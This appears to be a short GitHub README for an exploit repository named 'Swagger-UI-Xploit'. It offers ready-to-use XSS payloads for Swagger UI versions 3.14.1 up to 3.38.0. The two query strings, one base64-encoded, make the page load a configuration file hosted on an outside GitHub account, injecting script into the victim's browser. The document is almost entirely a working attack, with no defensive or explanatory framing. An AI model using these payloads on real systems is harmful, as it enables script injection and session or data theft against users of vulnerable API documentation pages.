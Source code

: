 # Swagger-UI-Xploit

Payloads to trigger XSS in versions of Swagger **>=3.14.1 < 3.38.0**


```

/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0gxWHBsb2l0L1N3YWdnZXItVUktWHBsb2l0L21haW4vdGVzdC55YW1sIgp9

/?configUrl=https://raw.githubusercontent.com/H1Xploit/Swagger-UI-Xploit/main/test.json
```
